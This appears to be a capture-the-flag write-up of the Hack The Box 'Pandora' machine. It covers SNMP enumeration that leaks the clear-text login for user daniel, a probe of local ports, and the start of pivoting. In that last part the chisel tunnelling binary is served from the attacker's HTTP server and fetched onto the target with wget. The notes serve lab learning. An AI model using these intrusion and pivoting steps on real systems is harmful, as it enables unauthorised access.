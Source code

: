 ```yaml
---
description: 'Date: 02/12/22'
---
```


# Pandora (Easy)

HTB Pandora (Easy)

10.10.11.136

Mississippi pandora Daniel

nmap -sU -sC -sV -p 161 -v 10.10.11.136 -T5

* Clear-text credentials: daniel | HotelBabylon23

Check for the processes running on the machine... Is there anything interesting running on the local private ports?

* "ps aux" -- gave me nothing.
* "netstat -tulpn | grep LISTEN" -- I see 127.0.0.1:3306, 127.0.0.53:53, :::80, :::22, and 0.0.0.0:22.
  * This confirms that there are services running locally on this machine that we cannot access via our Kali machine.
  * Port forwarding???
  * Let's curl these ports with our current SSH session and see if we get any interesting replies.
    * I kept getting curl: (1) Received HTTP/0.9 when not allowed with the majority of the ports.
    * However, when I curled 127.0.0.1:80, I found the following:
      * \<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora\_console/">
      * We need to chisel to this service as it seems interesting.

Let's try something else real quick:

* curl 127.0.0.1:80/pandora\_console
* We get: \<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN"> \<html>\<head> \<title>301 Moved Permanently\</title> \</head>\<body> \<h1>Moved Permanently\</h1> \<p>The document has moved \<a href="[http://127.0.0.1/pandora\_console/](http://127.0.0.1/pandora\_console/)">here\</a>.\</p> \<hr> \<address>Apache/2.4.41 (Ubuntu) Server at 127.0.0.1 Port 80\</address> \</body>\</html>

Now, let's try to curl 127.0.0.1:80/pandora\_console/ since the "document has moved to that new directory.

* curl 127.0.0.1:80/pandora\_console/
* We get source code to a website -- Pandora\_Console.

So, how do we access this service from our attacker machine?

* We port forward using chisel.
* first, we must get the chisel binary to the target server.
* "cd /usr/bin"
* Now that we are in the "binaries" directory, we will be compressing the binary "chisel" in order to prepare it to be transferred to the target machine.
* "upx -k chisel"
* Now that we have compressed the chisel binary, let's spin up an HTTP server so we can initiate the file transfer.
* "python3 -m http.server"
* While logged into SSH as Daniel on the target machine, we must navigate to the temp directory to transfer the file because we can write here.
* "cd /tmp"
* Now that we are in the temp directory, lets wget our tun0 address followed by port 8000 and the file we want to grab:
* "wget[http://10.10.14.11:8000/chisel](http://10.10.14.11:8000/chisel)"
* You now have the chisel binary directly on the Pandora target server.
* The INSANE thing about the upx tool is that we can directly use the binary immediately as if we would on the attacking computer.
* "chmod +x chisel"